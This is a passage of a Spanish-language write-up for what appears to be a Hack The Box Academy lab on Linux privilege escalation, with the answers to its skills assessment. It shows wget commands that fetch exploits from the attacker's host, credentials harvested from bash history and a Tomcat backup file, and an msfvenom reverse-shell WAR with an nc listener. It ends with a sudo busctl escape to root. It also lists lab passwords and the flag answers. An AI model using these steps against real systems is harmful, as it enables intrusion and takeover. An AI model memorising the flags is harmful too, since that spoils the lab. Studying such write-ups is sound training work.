wget http://10.10.15.17:80/exploit-2.c
wget http://10.10.15.17:80/exploit-1.c
```

Ahora bien, hay dos métodos para escalar privilegios explotando esta vulnerabilidad.

Primer método:

```
bash compile.sh
./exploit-1
```

<p align="center"> 

</p>

Segundo método:

```
./exploit-2 /usr/bin/sudo
```

<p align="center"> 

</p>

## Skills Assessment

### Linux Local Privilege Escalation - Skills Assessment

1. **Submit the contents of flag1.txt**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_LLPE!</font>"

```
ssh htb-student@10.129.73.220
history
```

<p align="center"> 

</p>

```
find / -name "*flag1.txt" 2>/dev/null
```

<p align="center"> 

</p>

answer: **LLPE{d0n_ov3rl00k_h1dden_f1les!}**

2. **Submit the contents of flag2.txt**

En esta ocasión usaremos el siguiente comando para saber donde se encuentra la **flag2.txt** 

```
find / -name "*flag2.txt" 2>/dev/null
```

> /home/barry/flag2.txt

La cosa es que solo barry puede leer la **flag2.txt**, la idea que tuve es mirar su **history** y me encontré una gran sorpresa

```
cat /home/barry/.bash_history
```

<p align="center"> 

</p>

Credenciales --> **barry**:**i_l0ve_s3cur1ty!**

```
su barry
cat /home/barry/flag2.txt
```

answer: **LLPE{ch3ck_th0se_cmd_l1nes!}**

3. **Submit the contents of flag3.txt**

```
find / -name "*flag3.txt" 2>/dev/null
```

> /var/log/flag3.txt

Luego quiero saber mas información del usuario **barry**

```
id
```

Me encuentro en el grupo **adm**

> uid=1001(barry) gid=1001(barry) groups=1001(barry),4(adm)

A continuación me gustaría saber los permisos del archivo **flag3.txt**

```
ls -la /var/log/flag3.txt
```

Se encuentra en el grupo **adm** con permiso de lectura, por tanto, puedo acceder a leer su contenido.

> -rw-r----- 1 root adm 23 Sep  5  2020 /var/log/flag3.txt


```
cat /var/log/flag3.txt
```

answer: **LLPE{h3y_l00k_a_fl@g!}**

4. **Submit the contents of flag4.txt**

```
find / -name "*flag4.txt" 2>/dev/null
```

> /var/lib/tomcat9/flag4.txt

Al ver que la **flag4.txt** se encuentra dentro de tomcat9 y no tengo permiso para acceder a ello... Recuerdo que alguna veces hay copia de seguridad con la extension **.bak**, por tanto pruebo suerte con el siguiente comando:

```
find / -name "*bak" 2>/dev/null
```

Me encuentro dos archivos pero el que más me llama la atención es el siguiente **/etc/tomcat9/tomcat-users.xml.bak**

>/snap/core24/988/etc/.resolv.conf.systemd-resolved.bak
>/etc/tomcat9/tomcat-users.xml.bak

```
cat /etc/tomcat9/tomcat-users.xml.bak
```

Me encuentro literalmente una mina de oro, las credeciales para tomcat.

> `<user username="tomcatadm" password="T0mc@t_s3cret_p@ss!" roles="manager-gui, manager-script, manager-jmx, manager-status, admin-gui, admin-script"/>`

Para introducir estas credenciales nos iremos al siguiente URL:

```
http://<IP_DE_LA_MAQUINA>:8080/manager/html
```

Tendremos que subir al sistema un archivo .war para conseguir luego una reverse shell

<p align="center"> 

</p>

Con el siguiente comando creamos un archivo **.war**

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.17 LPORT=4445 -f war > payload.war
```

Una vez creado preparamos el puerto de escucha

```
nc -nlvp 4445
```

Luego en la pagina tomcat al subir el archivo **.war** llamado **payload** nos aparecerá de la siguiente forma:

<p align="center"> 

</p>

Le daremos click, y el puerto de escucha nos aparecerá de la siguiente forma:

<p align="center"> 

</p>

Con el siguiente comando obtenemos una terminal mas bonita

```
python3 -c "import pty;pty.spawn('/bin/bash')"
cat /var/lib/tomcat9/flag4.txt
```

answer: **LLPE{im_th3_m@nag3r_n0w}**

5. **Submit the contents of flag5.txt**

```
find / -name "*flag5.txt" 2>/dev/null
```

> /root/flag5.txt  

Como se encuentra en la carpeta root, nos toca subir de privilegio

```
sudo -l
```

```bash
Matching Defaults entries for tomcat on nix03:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tomcat may run the following commands on nix03:
    (root) NOPASSWD: /usr/bin/busctl
```

A continuación hago el siguiente comando

```
sudo /usr/bin/busctl
!/bin/bash
```

Justo después **-  (press RETURN)** escribimos !/bin/bash y obtenemos root

<p align="center"> 

</p>

```
id
cat /root/flag5.txt
```

<p align="center"> 

</p>

answer: **LLPE{0ne_sudo3r_t0_ru13_th3m_@ll!}**